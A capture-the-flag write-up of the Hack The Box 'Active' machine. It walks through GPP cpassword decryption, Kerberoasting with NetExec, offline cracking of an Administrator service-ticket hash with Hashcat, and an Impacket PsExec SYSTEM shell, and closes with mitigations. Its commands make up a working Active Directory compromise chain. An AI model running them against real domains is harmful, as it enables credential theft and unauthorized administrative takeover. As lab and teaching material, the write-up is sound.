







# Hack The Box — Active (Windows / Active Directory)

> **Status:** Completed — User and Root flags obtained  
> **Difficulty:** Easy  
> **Platform:** Hack The Box  
> **Target:** Windows Server 2008 R2, `active.htb`  
> **Primary techniques:** SMB enumeration, Group Policy Preferences (GPP) password decryption, Kerberoasting, offline password cracking, authenticated remote command execution

This write-up documents my first completed Active Directory machine on Hack The Box. I used **NetExec**, **gpp-decrypt**, **Hashcat**, and **Impacket PsExec** to progress from a password stored in an exposed Group Policy Preferences XML file to a high-privilege Kerberos service account and an `NT AUTHORITY\SYSTEM` shell.

**Scope and disclosure:** All commands were run against my authorized HTB lab machine. The screenshots were captured during my sessions, then cropped and redacted for GitHub publication. Passwords, complete ticket hashes, and flag contents are intentionally omitted. The screenshots do not show the final flag-reading commands; obtaining both flags is based on my completed session.

## Contents

1. [Lab overview](#1-lab-overview)
2. [Finding a GPP credential](#2-finding-a-gpp-credential)
3. [Decrypting the GPP password](#3-decrypting-the-gpp-password)
4. [Kerberoasting with NetExec](#4-kerberoasting-with-netexec)
5. [Cracking the service-ticket hash](#5-cracking-the-service-ticket-hash)
6. [Administrative access and SYSTEM shell](#6-administrative-access-and-system-shell)
7. [Flag locations](#7-flag-locations)
8. [Troubleshooting](#8-troubleshooting)
9. [Security lessons and mitigations](#9-security-lessons-and-mitigations)

## 1. Lab overview

| Item | Details |
| --- | --- |
| Machine | Active |
| Operating system | Windows Server 2008 R2, x64 (as identified by NetExec) |
| Active Directory domain | `active.htb` |
| Hostname | `DC` |
| Target IP in the successful session | `10.129.63.17` (lab addresses may change) |
| Initial domain principal recovered | `active.htb\SVC_TGS` |
| High-privilege principal targeted | `active.htb\Administrator` |
| Initial access technique | GPP password recovery |
| Privilege escalation path | Kerberoasting → password cracking → administrator authentication |

### Attack path

```text
SMB / file share enumeration
           |
           v
      Groups.xml
           |
           v
  GPP cpassword recovery
           |
           v
  SVC_TGS domain credentials
           |
           v
LDAP enumeration + Kerberoasting
           |
           v
Administrator's TGS-REP hash
           |
           v
Hashcat (Kerberos etype 23)
           |
           v
Administrator credentials
           |
           v
SMB admin access (Pwn3d!)
           |
           v
Impacket PsExec -> NT AUTHORITY\SYSTEM
           |
           v
       Root flag
```

## 2. Finding a GPP credential

During SMB-based enumeration, I obtained a `Groups.xml` Group Policy Preferences file and inspected it on my Kali Linux system:

```bash
cat Groups.xml
```

The XML contained a user entry for `active.htb\SVC_TGS` and a `cpassword` attribute. GPP historically stored some configured passwords using reversible AES encryption with a publicly known key. Consequently, a `cpassword` value should not be treated as a protected secret.



**Observation:** My first attempt passed only part of the `cpassword` value to `gpp-decrypt`. The output was unreadable. This was an input-copying error, not proof that the tool or the decryption method failed.

## 3. Decrypting the GPP password

To retrieve the complete attribute from `Groups.xml`:

```bash
grep -o 'cpassword="[^"]*"' Groups.xml
```

Then I passed the **entire** value, including any Base64 `/`, `+`, or `=` characters, to `gpp-decrypt`:

```bash
gpp-decrypt '<COMPLETE_CPASSWORD_VALUE>'
```

This recovered the plaintext password for `SVC_TGS`. I verified the credentials using SMB authentication through NetExec:

```bash
nxc smb 10.129.63.17 -u 'SVC_TGS' -p '<GPP_PASSWORD>' -d active.htb
```

The tool returned a successful `active.htb\SVC_TGS` login. Authentication success alone did **not** indicate local administrator rights.



## 4. Kerberoasting with NetExec

With valid domain credentials, I used NetExec's LDAP module to enumerate Kerberoastable principals and request service tickets:

```bash
nxc ldap 10.129.63.17 \
  -u 'SVC_TGS' \
  -p '<GPP_PASSWORD>' \
  -d active.htb \
  --kerberoasting kerb.txt
```

The initial attempt failed with an error similar to:

```text
Connection error (ACTIVE.HTB:88)
[Errno -2] Name or service not known
Error retrieving TGT
```

The credentials were valid, but the client could not resolve the domain/Kerberos endpoint. In this lab I added the following mapping to `/etc/hosts`:

```text
10.129.63.17 DC.active.htb active.htb DC
```

After that, the Kerberoasting request succeeded.



The LDAP query identified an account with:

```text
sAMAccountName: Administrator
memberOf: ... Domain Admins ... Enterprise Admins ...
```

NetExec returned an offline-crackable Kerberos TGS-REP hash beginning with:

```text
$krb5tgs$23$*Administrator...
```

The prefix `$krb5tgs$23$` identifies the Kerberos 5 TGS-REP etype 23 (RC4-HMAC) format, which corresponds to Hashcat mode `13100`. The account's elevated group memberships made the finding particularly significant.



**Why this worked:** An authenticated domain user can request service tickets for accounts with registered Service Principal Names (SPNs). Where the service ticket uses an appropriate password-derived encryption key, the captured data can be tested against password guesses offline. This does not guarantee password recovery; success depends on the password and cracking strategy.

## 5. Cracking the service-ticket hash

I ran Hashcat against the ticket hash using the `rockyou.txt` wordlist:

```bash
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt
```

The session showed:

```text
Status:     Cracked
Hash.Mode:  13100 (Kerberos 5, etype 23, TGS-REP)
Recovered:  1/1 (100.00%)
```

I then verified the recovered password through SMB:

```bash
nxc smb 10.129.63.17 -u 'Administrator' -p '<CRACKED_PASSWORD>' -d active.htb
```

NetExec displayed `(Pwn3d!)`, indicating that the supplied credentials had administrator-level access on the target under NetExec's SMB privilege check.



## 6. Administrative access and SYSTEM shell

I used Impacket PsExec with the verified Administrator account:

```bash
impacket-psexec 'active.htb/Administrator@10.129.63.17'
```

After entering the password at the prompt, a remote Windows command shell opened. I verified the execution context:

```cmd
whoami
```

Result:

```text
nt authority\system
```

PsExec can create and run a temporary service on the remote Windows host, commonly yielding an `NT AUTHORITY\SYSTEM` context. This is different from merely authenticating as the `Administrator` user.



## 7. Flag locations

I successfully obtained **both the User and Root flags**. Their values are deliberately excluded from this public write-up.

From the remote shell, the relevant paths were:

```cmd
:: User flag
type C:\Users\SVC_TGS\Desktop\user.txt

:: Root flag
type C:\Users\Administrator\Desktop\root.txt
```

The `SVC_TGS` profile and `Administrator` profile were visible in the shell's `C:\Users` directory listing. I did not include a screenshot showing the flag contents, so this repository contains no screenshot claim for those specific files.

## 8. Troubleshooting

### A. `gpp-decrypt` produced unreadable output

**Cause:** I initially provided only part of the `cpassword` string.  
**Fix:** Extract the complete quoted value from `Groups.xml` and rerun `gpp-decrypt` with it intact.

### B. `Error retrieving TGT` / `ACTIVE.HTB:88`

**Cause:** The domain name could not be resolved to a reachable Kerberos endpoint.  
**Fix used in the lab:** Add `DC.active.htb` and `active.htb` to `/etc/hosts` with the currently assigned target IP. Verify with `getent hosts active.htb`.

### C. `Decoding error detected` in Impacket PsExec

**Cause:** Windows console encoding did not match the shell client's selected decoding codec. The `dir` command itself still executed.

Possible workarounds:

```cmd
dir /b C:\Users
chcp
```

If required, reconnect with the matching `-codec` option (for example, `-codec cp850` **only if** the remote code page is 850).

### D. `No route to host` while reconnecting

I briefly attempted to reconnect to a **different, incorrect IP**. This was a network-targeting mistake rather than a password failure. The screenshot shows the unsuccessful attempt; reconnecting to the actual HTB machine address solved the issue.



## 9. Security lessons and mitigations

| Finding | Security significance | Recommended mitigation |
| --- | --- | --- |
| GPP `cpassword` in `Groups.xml` | Reversible password storage exposed a domain account credential. | Remove legacy GPP password settings, rotate exposed passwords, and use managed secret delivery rather than storing credentials in policy XML. |
| Privileged account exposed to Kerberoasting | A service ticket associated with an Administrator account could be cracked offline. | Avoid assigning SPNs to privileged accounts; use dedicated least-privileged service identities and strong, long, managed passwords (e.g., gMSAs where appropriate). |
| RC4-HMAC service-ticket encryption | Hashcat mode 13100 accepted the ticket format. | Review Kerberos encryption policy and migrate away from RC4 where supported, alongside credential hygiene and account privilege separation. |
| SMB administrative access | Recovered credentials could be used for remote execution. | Reduce standing administrative privileges, monitor remote service creation/SMB activity, and harden lateral movement controls. |

### What I learned

- **SMB** may expose configuration files that contain recoverable credentials.
- **GPP decryption** is not the same as dictionary-based password cracking: the legacy encryption key is publicly known.
- **LDAP** helps enumerate directory attributes such as service principal names and group membership.
- **Kerberos** uses a Ticket Granting Ticket (TGT) to obtain service tickets (TGS). Kerberoasting targets ticket material suitable for offline password guessing.
- **Hashcat** can test that ticket material offline; the hash format determines the cracking mode.
- **Administrator**, **Domain Admin**, and **NT AUTHORITY\SYSTEM** describe different accounts, groups, or execution contexts; they are not interchangeable.
- **Troubleshooting matters**: name resolution, code pages, and using the correct lab IP were as important as the core attack path.

---

**Tools:** Kali Linux, NetExec (`nxc`), `gpp-decrypt`, Hashcat, Impacket PsExec.  
**Author note:** All screenshots are from my own HTB Active walkthrough. Credentials and complete cryptographic material are redacted, and no user/root flag values are published.
